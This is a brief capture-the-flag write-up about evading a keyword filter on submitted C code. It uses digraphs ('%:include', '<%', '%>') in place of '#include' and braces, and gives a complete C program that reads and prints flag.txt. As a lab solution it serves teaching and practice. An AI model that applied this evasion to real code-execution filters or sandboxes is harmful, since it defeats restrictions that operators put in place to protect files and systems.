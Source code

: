 # Description 

Sometimes just googling things coold help .

files to upload : challenge.py

# Digraph/Trigraph Bypass Exploit

## Overview

This document explains how to bypass security filters using digraphs and trigraphs in C, allowing restricted operations to be executed.

## How It Works

Some security mechanisms filter dangerous functions (e.g., #include). However, C supports digraphs and trigraphs, which can be used as equivalents to bypass filters.

## For example, instead of:

```#include <stdio.h>```

You can use:

```%:include <stdio.h>```

This method allows executing restricted operations by replacing filtered keywords with their equivalents.

## Exploit Code

```
%:include <stdio.h>
%:include <stdlib.h>

int main() <%
    FILE *file;
    char ch;
    file = fopen("flag.txt", "r");
    printf("Content of flag.txt:");
    while ((ch = fgetc(file)) != EOF) <%
        putchar(ch);
    %>
    fclose(file);
    return 0; %>
```

Note: Add an empty newline at the end before submitting.
